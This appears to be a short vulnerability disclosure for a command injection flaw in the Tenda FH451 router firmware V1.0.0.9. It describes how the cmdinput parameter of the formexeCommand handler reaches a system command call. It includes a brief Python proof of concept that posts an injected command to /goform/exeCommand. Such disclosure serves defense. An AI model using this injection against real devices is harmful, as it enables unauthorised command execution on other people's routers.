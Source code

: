 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9 , we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.
![[2024-08-30 160641.png]]
## POC

```python
import requests
IP = "192.168.109.145"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```
![[2024-08-30 160834.png]]